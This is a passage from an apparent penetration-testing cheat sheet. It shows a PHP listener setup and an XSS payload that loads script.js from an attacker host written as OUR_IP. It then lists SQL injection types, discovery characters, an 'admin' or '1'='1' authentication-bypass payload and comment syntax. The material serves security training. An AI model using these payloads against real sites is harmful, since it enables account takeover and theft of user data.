 ```php
```

Let's start our listener:
```shell
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Now we can place our early discovered payload again, but this time we request the `/script.js`.
```html
<script src=http://OUR_IP/script.js></script>
```

### SQL injection
#### Types
1. In-band
1.1 Union Based
1.1 Error Based
2. Blind
2.1 Boolean Based
2.2 Time Based
3. Out-of-band

#### SQLi Discovery

| Payload       | URL Encoded |
| -----------    | ----------- |
| `'`      | `%27`  |
| `"`      | 	`%22` |
| `#`      | `%23`  |
| `;`      |  `%3B` |
| `)`      | `%29`  |

If we add one of the above payloads and observe any weird behavior from the webpage, we can assume that there is a SQL injection possible.

For example, we can now try an `OR Injection`.

```sql
admin' or '1'='1
```

When there is no hint for a valid username we can repeat this for the password.

For more Payloads please have a look in the [PayloadsAllTheThings Project](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass).

#### Comments

| Comment       | Description |
| -----------    | ----------- |
| `-- `      | Inline - Must contain a whitespace after the two dashes!  |
| `#`      | Inline - Note correct URL encoding |
| `/**/ `      | Inline - Unusual |
